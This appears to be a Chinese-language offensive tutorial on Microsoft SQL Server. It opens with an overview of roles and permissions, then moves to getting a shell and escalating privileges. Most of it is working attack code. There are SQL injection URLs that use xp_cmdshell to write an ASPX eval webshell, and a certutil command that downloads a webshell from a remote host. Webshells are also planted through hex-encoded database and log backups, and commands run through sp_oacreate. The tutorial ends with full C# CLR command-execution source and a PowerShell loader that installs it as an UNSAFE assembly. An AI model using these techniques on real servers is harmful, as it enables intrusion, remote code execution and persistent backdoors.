一、MSSQL简介
MSSQL(MicroSoft SQL Server数据库)，是微软开发的关系型数据库管理系统DBMS，是一个较大型的数据库，提供数据库的从服务器到终端的完整的解决方案，数据库管理系统SSMS(SQL Server Managerment Studio)，是一个用于建立、使用和维护数据库的集成开发环境。 端口号：1433
SA用户
在搭建时，选择使用SQL Server身份验证会创建SA账户并设置密码，SA(System Administrator)表示系统管理员，在SQLServer2019之前的SA用户都是系统最高权限用户SYSTEM，但在2019版本时为普通数据库用户mssqlserver，是一个低权用户。
系统库
系统数据库默认创建时就会存在，有以下4种

存储过程
存储过程是一个可编程的函数，它在数据库中创建并保存，是存储在服务器中的一组预编译过的T-SQL（SQL语言版本之一，只能在SQLserver使用）语句。数据库中的存储过程可以看做是对编程中面向对象方法的模拟。它允许控制数据的访问方式（可以将存储过程理解为函数调用的过程），使用execute命令执行存储过程。
系统存储过程、扩展存储过程、用户自定义的存储过程。
- 系统存储过程主要存储在master数据库中，以"sp_“为前缀，在任何数据库中都可以调用，在调用的时候不必在存储过程前加上数据库名；
- 扩展存储过程则是对动态链接库(DLL)函数的调用，主要是用于客户端与服务器端或客户端之间进行通信的，以“xp_“为前缀，使用方法与系统存储过程类似；
- 用户定义的存储过程是SQLServer的使用者编写的存储过程；
存储过程为数据库提供了强大的功能，但在相应的权限下，攻击者可以利用不同的存储过程执行不同的高级功能，如：创建数据库用户、枚举文件目录、执行任意系统命令等。正因如此，SQLserver2005、2008等之后的版本分别对存储过程做了权限控制，以防滥用。
Server权限体系
权限两个字，一个权力，一个限制。在软件领域通俗的解释就是哪些人可以对哪些资源做哪些操作。在SQL Server中，”哪些人”，“哪些资源”,”哪些操作”则分别对应SQL Server中的三个对象，分别为主体(Principals),安全对象(Securables)和权限(Permissions)，而权力和限制则是对应了SQL Server中的GRENT和DENY。对于主体，安全对象和权限的初步理解，见下图：

主体
“主体”是可以请求 SQL Server 资源的实体。主体可以是个体，组或者进程。主体可以按照作用范围被分为三类:
- Windows级别主体：包括Windows 域登录名和Windows 本地登录名。
- 服务器级别主体：包括服务器登录名和服务器角色。
- 数据库级别主体：包括数据库用户、数据库角色、固定数据库角色以及应用程序角色。
可以看到主体包括登录名以及角色。
角色
角色可以看成是权限的集合体，为了方便权限管理，可以把一些常用权限赋予角色，然后再把角色赋予相关用户，则这些用户就继承了橘色中的所有权限。一般情况下，数据库会内置一些角色，用户也可以创建自定义角色。对角色进行权限管理的方式与对用户进行权限管理的方式是相同的。 角色在SQL Server中被分为三类，分别为:
- 内置角色—-这类角色在服务器安装时已经默认存在，其权限是固定的，并且不能被删除
- 用户自定义角色—-这类角色由用户按照需求自定义创建
- 应用程序角色—-这类特殊角色用于管理应用程序的数据访问
角色也分为两个方面：
- 服务器级别的角色，用于数据库服务器方面的控制权限
- 数据库级别的角色，用于数据库中数据的控制权限。
1.服务器级别的角色
服务器级角色的权限作用域为服务器范围。例如创建、修改、删除数据库，管理磁盘文件，添加或删除数据库连接等等，都是需要服务器上的权限才能进行操作。 固定服务器角色具有一组固定的权限，并且适用于整个服务器范围。 它们专门用于管理 SQL Server，且不能更改分配给它们的权限。 可以在数据库中不存在用户帐户的情况下向固定服务器角色分配登录。 **服务器级别的对象，只能包含登录名。**定义了服务器角色，你定义的登陆用户就有了相应的执行权限。先来看一下服务器级别的固定角色：
| 服务器角色 | 含义 |
|---|---|
| sysadmin | 可以在服务器上执行任何活动 |
| serveradmin | 可以更改服务器范围的配置选项和关闭服务器 |
| securityadmin | 管理和审核登录用户。具有 GRANT、DENY 和 REVOKE 服务器和数据库级别的权限。此外，还可以重置 SQL Server 登录名的密码 |
| processadmin | 管理SQL Server运行的进程 |
| setupadmin | 可以使用 T-SQL 语句添加和删除连接服务器，并可以执行某些系统存储过程（如 sp_serveroption） |
| bulkadmin | 可以运行 BULK INSERT 语句 |
| diskadmin | 用于管理磁盘文件 |
| dbcreator | 可以创建、更改、删除和还原任何数据库 |
| public | public角色不同于其它角色在于其权限可以被修改，每个 SQL Server 登录名都属于 public 服务器角色。无法将用户、角色或组指派给它，因为默认情况下它属于该角色，且public不能被删除 |
2.数据库级别的角色
数据库级角色的权限作用域为数据库范围。例如可以访问哪个数据库，可以访问哪个数据库中的哪些数据表、哪些视图、哪些存储过程等等，都需要数据库上的权限才能进行操作。 SQL Server存在两种类型的数据库级角色：数据库中预定义的“固定数据库角色”和可以创建的“用户定义的数据库角色”。 固定数据库角色是SQL Server预定义的数据库角色，具有数据库级别的管理权限，并且存在于每个数据库中。**db_owner *数据库角色的成员可以管理固定数据库角色成员身份。自定义数据库角色是当固定数据库角色不能满足要求时，可以自定义数据库角色。 * 数据库级别的对象，只能包含数据库用户名。**先来看一下数据库级别的固定角色：
| 数据库角色 | 含义 |
|---|---|
| db_owner | 可以执行数据库中技术所有动作的用户，执行所有的配置活动和维护活动 |
| db_securityadmin | 管理数据库安全，可以修改角色成员身份和管理权限。向此角色中添加主体可能会导致意外的权限升级 |
| db_accessadmin | 可以为 Windows 登录名、Windows 组和 SQL Server 登录名添加或删除数据库访问权限 |
| db_backupoperator | 可以备份数据库 |
| db_ddladmin | 可以在数据库中运行任何数据定义语言 (DDL) 命令 |
| db_datawriter | 可以在所有用户表中添加、删除或更改数据 |
| db_datareader | 可以从所有用户表中读取所有数据 |
| db_denydatawriter | 不能添加、修改或删除数据库内用户表中的任何数据 |
| db_denydatareader | 不能读取数据库内用户表中的任何数据 |
| public | public角色不同于其它角色在于其权限可以被修改，每个数据库用户、角色或组都属于public数据库角色。无法将用户、角色或组指派给它，因为默认情况下它属于该角色，且public不能被删除 |
登录账号和数据库用户
SQL Server的服务器和数据库是两个层次的概念，SQL Server的用户也分为两种，一种是服务器登陆账号，另一种是数据库用户。 一个人要操作SQL Server数据库，首先要为其创建服务器登陆账号，使得他可以登录到服务器上，然后还要在要操作的数据库上创建和这个登陆账号对应的数据库用户。 可以给登陆账号赋予相应权限，使得这个账号可以执行指定的管理服务器的任务。也可以给数据库用户赋予相应权限，使得这个数据库用户可以在这个数据库中执行指定的操作。 服务器登陆账号分为为Windows验证及SQL Server验证两种。
- Windows身份验证模式：把Windows的操作系统用户添加为SQL Server服务器登陆账号，SQL Server并不参与验证。SQL Server完全相信Windows的验证结果，所以用此方式登录SQL Server时并不需要提供密码。
- SQL Server和Windows身份验证模式：这种模式即允许由Windows来验证主体身份，又允许SQL Server来验证主体身份，当由SQL Server验证主体身份时，需要用户名和密码来确认主体身份，和使用什么Windows账户半毛钱关系都没有，是在服务器上创建的另外一种独立账号。
getshell
能否getshell要看你当前的用户权限，如果是没有进行降权的sa用户，那么你几乎可以做任何事。当然你如果有其他具有do_owner权限的用户也可以。
拿shell的两大前提就是
- 有相应的权限db_owner
- 知道web目录的绝对路径
我们先来了解下怎么去寻找web目录的绝对路径。
寻找绝对路径
- 报错信息
- 字典猜
- 旁站的目录
- 存储过程来搜索
- 读配置文件
前三种方法都是比较常见的方法。我们主要来讲第四种调用存储过程来搜索。
先来看xp_dirtree直接举例子
execute master..xp_dirtree 'c:' --列出所有c:\文件、目录、子目录
execute master..xp_dirtree 'c:',1 --只列c:\目录
execute master..xp_dirtree 'c:',1,1 --列c:\目录、文件
当实际利用的时候我们可以创建一个临时表把存储过程查询到的路径插入到临时表中，这样只需要去读取tmp表中的数据即可
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
insert into tmp(dir,num,num1) execute master..xp_dirtree 'C:\Users\Administrator\Desktop',1,1;
测试完成后记得删除tmp表
drop table tmp
我们再来看xp_cmdshell怎么去找绝对路径，实际上原理就是调用cmd来查找文件（如果可以执行命令，可以通过远程下载文件的方式下载木马）
http://127.0.0.1/1.aspx?id=1;CREATE TABLE cmdtmp (dir varchar(8000));
http://127.0.0.1/1.aspx?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
xp_cmdshell拿shell
xp_cmdshell这个存储过程可以用来执行cmd命令，那么我们可以通过cmd的echo命令来写入shell，当然前提是你知道web目录的绝对路径
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;
由于cmd写webshell的主意这些转义的问题(所有的尖括号需要转义) 推荐使用certutil下载
远程下载文件
certutil -urlcache -split -f "http://172.20.10.4:8000/xxx.aspx" "c:\wwwroot\asp\nice.aspx"
命令：
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'certutil -urlcache -split -f "http://172.20.10.4:8000/xxx.aspx" "c:\wwwroot\asp\nice.aspx"' ;
#加密
certutil -encode test.aspx out.txt
解密
certutil -decode c:\windows\Temp\out.txt c:\wwwroot\asp\aspx.aspx
1.首先在本地使用certutil加密，将加密后的内容复制出来
echo PCVAcGFnZSBpbXBvcnQ9ImphdmEudXRpbC4qLA== > C:\tmp\shell.txt
2.解密
certutil -f -decode "C:\tmp\shell.txt" "C:\tmp\shell.jsp"
使用certutil下载文件有个弊端就是会产生缓存文件，用如下命令查看：
certutil -urlcache *
执行删除缓存
certutil -urlcache * delete
差异备份拿shell
backup database 库名 to disk = 'c:\bak.bak';--
create table [dbo].[test] ([cmd] [image]);
insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E) （将webshell转成16进制）
backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--
log备份拿shell
LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式
alter database 库名 set RECOVERY FULL
create table cmd (a image)
backup log 库名 to disk = 'c:\xxx' with init
insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) （将webshell转成16进制）
backup log 库名 to disk = 'c:\xxx\2.asp'
log备份的好处就是备份出来的webshell的文件大小非常的小
提权
xpcmdshell提权
xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后默认禁止，但未删除
0x01 xp_cmdshell简介
xp``_cmdshell是Sql Server中的一个组件，将命令字符串作为操作系统命令 shell 执行，并以文本行的形式返回所有输出。通常在拿到sa口令之后，可以通过xp``_cmdshell来进行提权
影响范围：
只要该数据库存在该组件，就可以利用
0x02 xp_cmdshell使用
1. 查看xp_cmdshell状态
判断xpcmdshell权限
declare @RunningOnACluster char(1)
declare @xp_cmdshell_available char(1)
declare @result int
set @xp_cmdshell_available='Y'
set @result=0
select @RunningOnACluster=case
when convert(int, serverproperty('IsClustered')) = 1 then 'Y'
else 'N'
end
if(0=(select value_in_use from sys.configurations where name='xp_cmdshell'))
set @xp_cmdshell_available='N' if @RunningOnACluster='Y'
begin
if @xp_cmdshell_available='Y'
select @result=1
if @xp_cmdshell_available='N'
select @result=2
end
select @result
返回1表示xp_cmdshell组件启用，返回0则表示未启用。
恢复xp_cmdshell存储过程
解决Error Message:未能找到存储过程 ‘master..xp_cmdshell’。
第一步先删除：
drop procedure sp_addextendedproc
drop procedure sp_oacreate
exec sp_dropextendedproc 'xp_cmdshell'
第二步恢复：
dbcc addextendedproc("sp_oacreate","odsole70.dll")
dbcc addextendedproc("xp_cmdshell"," ")
直接恢复，不管sp_addextendedproc是不是存在，需要自行上传xplog70.dll，恢复扩展存储过过程xp_cmdshell的语句:
dbcc addextendedproc("xp_cmdshell","xplog70.dll")
代码判断一系列存储过程是否存在，若不存在则恢复。
if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_cmdshell]'))
dbcc addextendedproc ('xp_cmdshell','xplog70.dll')
if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_dirtree]'))
dbcc addextendedproc ('xp_dirtree','xpstar.dll')
if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_fixeddrives]'))
dbcc addextendedproc ('xp_fixeddrives','xpstar.dll')
if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_regwrite]'))
dbcc addextendedproc ('xp_regwrite','xpstar.dll')
if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_regread]'))
dbcc addextendedproc ('xp_regread','xpstar.dll')
2.开启xp_cmdshell存储过程
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; exec SP_CONFIGURE 'xp_cmdshell', 1; RECONFIGURE;

3.xp_cmdshell执行系统命令
xp_cmdshell执行whoami命令
exec master.dbo.xp_cmdshell 'whoami'
exec master.dbo.xp_cmdshell "whoami"
exec xp_cmdshell "whoami";
4.关闭xp_cmdshell存储过程
关闭xp_cmdshell配置
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;
删除xp_cmdshell的语句:
exec sp_dropextendedproc 'xp_cmdshell';
删除xp_cmdshell过程，再添加xp_cmdshell过程，需要自行上传xplog70.dll恢复被删除的xp_cmdshell。
drop procedure xp_cmdshell;
exec sp_addextendedproc "xp_cmdshell", "xplog70.dll";
附录
exec sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'
exec sp_addextendedproc xp_enumgroups ,@dllname ='xplog70.dll'
exec sp_addextendedproc xp_loginconfig ,@dllname ='xplog70.dll'
exec sp_addextendedproc xp_enumerrorlogs ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_getfiledetails ,@dllname ='xpstar.dll'
exec sp_addextendedproc Sp_OACreate ,@dllname ='odsole70.dll'
exec sp_addextendedproc Sp_OADestroy ,@dllname ='odsole70.dll'
exec sp_addextendedproc Sp_OAGetErrorInfo ,@dllname ='odsole70.dll'
exec sp_addextendedproc Sp_OAGetProperty ,@dllname ='odsole70.dll'
exec sp_addextendedproc Sp_OAMethod ,@dllname ='odsole70.dll'
exec sp_addextendedproc Sp_OASetProperty ,@dllname ='odsole70.dll'
exec sp_addextendedproc Sp_OAStop ,@dllname ='odsole70.dll'
exec sp_addextendedproc xp_regaddmultistring ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_regdeletekey ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_regdeletevalue ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_regenumvalues ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_regremovemultistring ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_regwrite ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_dirtree ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_regread ,@dllname ='xpstar.dll'
exec sp_addextendedproc xp_fixeddrives ,@dllname ='xpstar.dll'
简单总结：
xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重新开启它。
启用：
EXEC sp_configure 'show advanced options', 1
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
关闭：
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 0;
reconfigure;
删除：
exec sp_dropextendedproc 'xp_cmdshell';
执行：
EXEC master.dbo.xp_cmdshell '命令'
如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复
exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll'
SP_OACREATE
0x01 sp_oacreate简介
调用wscript.shel执行命令
sp_oacreate系统存储过程可以用于对文件删除、复制、移动等操作，还可以配合sp_oamethod系统存储过程调用系统wscript.shell来执行系统命令。sp_oacreate和sp_oamethod两个过程分别用来创建和执行脚本语言。
系统管理员使用sp_configure启用sp_oacreate和sp_oamethod系统存储过程对OLE自动化过程的访问（OLE Automation Procedures）
在效果方面，sp_oacreate、sp_oamethod两个过程和xp_cmdshell过程功能类似，因此可以替换使用！
利用条件：
1.已获取到sqlserver sysadmin权限用户的账号与密码且未降权（如2019版本sa用户权限为mssqlserver，已降权）
2.sqlserver允许远程连接
3.OLE Automation Procedures选项开启
0x02 sp_oacreate使用
1.查看SP_OACREATE状态
我们可以在master.dbo.sysobjects中查看SP_OACREATE状态
select * from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

2.判断SP_OACREATE是否存在
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

利用count(*)判断是否存在，存在即返回1。
3.启用SP_OACREATE
利用sp_configure存储过程，启用SP_OACREATE
exec sp_configure 'show advanced options', 1; RECONFIGURE WITH OVERRIDE;
exec sp_configure 'Ole Automation Procedures', 1; RECONFIGURE WITH OVERRIDE;

4.利用SP_OACREATE执行命令
利用SP_OACREATE执行系统命令
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\System32\cmd.exe /c whoami /all >C:\\test\test.txt'

此利用方法无回显
5.关闭组件命令
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'Ole Automation Procedures',0;
reconfigure;
简单总结
判断SP_OACREATE是否存在
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
启用：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;
关闭：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE WITH OVERRIDE;
执行：
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\System32\cmd.exe /c whoami /all >C:\\test\test.txt'
以上是使用sp_oacreate的提权语句，主要是用来调用OLE对象（Object Linking and Embedding的缩写，VB中的OLE对象），利用OLE对象的run方法执行系统命令。
CLR提权
0x01 CLR简介
CLR微软官方把他称为公共语言运行时，从 SQL Server 2005 (9.x) 开始，SQL Server 集成了用于 Microsoft Windows 的 .NET Framework 的公共语言运行时 (CLR) 组件。 这意味着现在可以使用任何 .NET Framework 语言（包括 Microsoft Visual Basic .NET 和 Microsoft Visual C#）来编写存储过程、触发器、用户定义类型、用户定义函数、用户定义聚合和流式表值函数。
更多概念详见下方官方链接：
0x02 编写CLR
利用VS创建MSSQL数据库项目
修改目标平台和勾选创建脚本
在SQL Server 2005中引入了从MSSQL运行.NET代码的功能，并在后续版本中叠加了许多保护措施，来限制代码可以访问的内容。在创建.Net程序集时，会给它们指定一个权限级别，例如：
CREATE ASSEMBLY SQLCLRTest
FROM 'C:\MyDBApp\SQLCLRTest.dll'
WITH PERMISSION_SET = SAFE;
其权限集有三个选项：
SAFE：基本上只将MSSQL数据集暴露给代码，其他大部分操作则都被禁止。
EXTERNAL_ACCESS：允许访问底层服务器上某些资源，但不应该允许直接执行代码。
UNSAFE：允许使用任何代码。
微软关于SQL CLR的详细文档可通过以下地址获得： https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration
根据不同的数据库选择不同的.net，修改目标框架和权限级别为UNSAFE。
创建SQL CLR C# 存储过程

写入代码
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;
public partial class StoredProcedures
{
[Microsoft.SqlServer.Server.SqlProcedure]
public static void ExecCommand (string cmd)
{
// 在此处放置代码
SqlContext.Pipe.Send("Command is running, please wait.");
SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
}
public static string RunCommand(string filename,string arguments)
{
var process = new Process();
process.StartInfo.FileName = filename;
if (!string.IsNullOrEmpty(arguments))
{
process.StartInfo.Arguments = arguments;
}
process.StartInfo.CreateNoWindow = true;
process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
process.StartInfo.UseShellExecute = false;
process.StartInfo.RedirectStandardError = true;
process.StartInfo.RedirectStandardOutput = true;
var stdOutput = new StringBuilder();
process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
string stdError = null;
try
{
process.Start();
process.BeginOutputReadLine();
stdError = process.StandardError.ReadToEnd();
process.WaitForExit();
}
catch (Exception e)
{
SqlContext.Pipe.Send(e.Message);
}
if (process.ExitCode == 0)
{
SqlContext.Pipe.Send(stdOutput.ToString());
}
else
{
var message = new StringBuilder();
if (!string.IsNullOrEmpty(stdError))
{
message.AppendLine(stdError);
}
if (stdOutput.Length != 0)
{
message.AppendLine("Std output:");
message.AppendLine(stdOutput.ToString());
}
SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
}
return stdOutput.ToString();
}
}
编译成功后

将以下文件保存为dll.ps1(需要修改dll路径)
$assemblyFile = "C:\Users\Administrator\Desktop\dll\sysinfo.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$stringBuilder.AppendLine("use msdb;") | Out-Null
$stringBuilder.AppendLine("alter database master set trustworthy on;") | Out-Null
$stringBuilder.AppendLine("exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'clr enabled',1;reconfigure;") | Out-Null
$stringBuilder.Append("CREATE ASSEMBLY [sysinfo] AUTHORIZATION [dbo] FROM `n0x") | Out-Null
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) { $stringBuilder.Append($byte.ToString("X2")) | Out-Null }
$stringBuilder.AppendLine("`n WITH PERMISSION_SET = UNSAFE;") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null
$stringBuilder.AppendLine("CREATE PROCEDURE [dbo].[ExecCommand] @cmd NVARCHAR (MAX) AS EXTERNAL NAME [sysinfo].[StoredProcedures].[ExecCommand]") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null
$stringBuilder.AppendLine("exec dbo.ExecCommand 'whoami /all';") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null
$stringBuilder.ToString() -join "" | Out-File C:\Users\Administrator\Desktop\dll\exec.txt
输入以下命令，生成提权用到的命令，运行完成后在当前目录生成exec.txt文件（该脚本用于生成提权语句，将dll转成16进制，通过这种方式文件不落地。）
pwershell -exec bypass ./dll.ps1
